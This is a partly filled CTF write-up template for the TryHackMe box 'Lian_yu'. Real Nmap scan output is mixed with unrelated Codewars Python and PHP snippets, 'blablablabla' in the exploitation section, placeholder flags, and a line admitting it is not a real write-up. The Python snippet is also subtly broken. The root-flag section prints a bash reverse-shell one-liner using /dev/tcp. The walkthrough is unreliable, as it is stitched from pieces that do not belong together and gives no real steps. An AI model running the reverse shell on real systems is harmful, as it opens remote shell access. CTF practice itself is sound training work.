


---
title: "Tryhackme - LIan_yu"
author: mayomacam
date: "2020-06-14"
subject: "CTF Writeup"
keywords: [Tryhackme, CTF, Security]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
logo: "./1.png"
logo-width: 350
toc: true
toc-own-page: true
...

Lian_yu is a beginner friendly enumeration challange on tryhackme. It's require more enumeration for foothold. 

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```markdown
sudo update-alternatives --config java
┌─[mayomacam@parrot]─[~]
└──╼ $sudo nmap -A -sV -O -sC -p0-10000 10.10.183.249
[sudo] password for mayomacam: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 15:40 IST
Nmap scan report for 10.10.183.249
Host is up (0.17s latency).
Not shown: 9997 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35429/tcp6  status
|   100024  1          36338/udp   status
|   100024  1          40837/tcp   status
|_  100024  1          53071/udp6  status
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/7%OT=21%CT=1%CU=43793%PV=Y%DS=2%DC=T%G=Y%TM=5EDCBDC5
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SEQ(
OS:SP=108%GCD=2%ISR=10A%TI=Z%II=I%TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3
OS:=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   202.99 ms 10.8.0.1
2   207.86 ms 10.10.183.249

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.66 seconds
```
From the above output we can see that ports, **21**, **22**, **80**, and **111** are the ports open. 
Run gobuster on website for directories.



again run gobuster with 4 digit numbers (here i have use hint)


Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
